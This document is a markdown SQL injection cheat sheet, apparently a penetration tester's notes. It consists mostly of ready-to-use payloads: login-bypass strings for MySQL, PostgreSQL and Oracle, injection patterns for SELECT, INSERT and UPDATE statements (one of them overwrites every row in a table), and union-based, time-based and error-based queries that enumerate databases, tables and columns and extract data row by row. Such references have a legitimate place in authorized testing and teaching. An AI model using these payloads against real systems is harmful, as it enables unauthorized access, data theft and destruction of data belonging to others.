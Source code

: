 # SQL injection

## Login bypass

### MySQL

```
' or 1=1;#
' or 1=1 LIMIT 1;#
```

### PostgreSQL

```
' or 1=1;--
' or 1=1;/*
' or 1=1 LIMIT 1;--
```

### Oracle

```
' or 1=1--
' or 1=1 LIMIT 1--
```

## Injection types

### SELECT

```
SELECT * FROM accounts WHERE user = 'xxx' AND pass = 'yyy'

xxx' OR 1=1;--            #hides the condition on pass field behind a comment
xxx' OR 1=1 LIMIT 1;--    #hides the extra quote with a comment and limits the results to 1 match (can avoid simple SQLi detections)
```

### INSERT

```
INSERT INTO accounts (user, pass, info) VALUES ('xxx', 'yyy', 'zzz');

xxx');<commands>;--    #close the open sets of quotes and brackets, hide the duplicates behind inline comment
```

### UPDATE

```
UPDATE accounts SET info='xxx' WHERE user = 'yyy';

xxx';<commands>;--    #DANGEROUS! Hides the WHERE clause, all info fields in table will be set to "xxx"
yyy';<commands>;--    #update statement completes normally, then the injected commands will be executed
```

## Data disclosure

### Union based data disclosure

1. Find the number of columns: `' or 1=1 order by <col number>; --` increase the number of columns until you get an error. Pay also attention to how the output is ordered, this allows you to match a column number to its output field.
2. Join data: `' or 1=1 union all select <fields> from <table>; --` since the UNION operation requires that both tables have the same column number, add NULL values for the missing columns in the select if the operation fails.

### Time based boolean check

Execute a query that results in a boolean statement (true/false). Use a time delay command to stop execution if the result is True. Useful to display boolean values since error based data disclosure doesn't work with them.

```
');if (IS_MEMBER ('db_owner') = 0) WAITFOR DELAY '0:0:5';--
```

### Error based data disclosure

If the field you're injecting is not used to display data it is possible to make the database print data by causing a cast error i.e. casting strings to integers. This allows you to read one value in a table at time, to print more values filter by row number.

```
'); select CAST(@@version as int);--
```

#### Print database list

```
');SELECT CAST (name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY name ASC) AS rownumber,name FROM master..sysdatabases) AS foo WHERE rownumber = <row>;--
```

#### Print tables in database

```
');SELECT CAST (name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY name ASC) AS rownumber,name FROM <db>..sysobjects WHERE xtype = 'U') AS foo WHERE rownumber = <row>;--
```

#### Enumerate columns

```
');SELECT CAST (foo.name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY archive..syscolumns.name ASC) AS rownumber,<db>..syscolumns.name AS name FROM <db>..syscolumns, <db>..sysobjects WHERE <db>..syscolumns.id=<db>..sysobjects.id AND <db>..sysobjects.name='<table>') AS foo WHERE rownumber = <row>;--
```

#### Select data from column in nth row

Insert the columns you need to read in the inner select, in this way it wil be possible to select by row number and read the content of the column one row at time.

```
');SELECT CAST (foo.col1 AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY id ASC) AS rownumber,<db>..<table>.<column> AS col1 FROM <db>..<table>) AS foo WHERE rownumber = <nth>;--
```
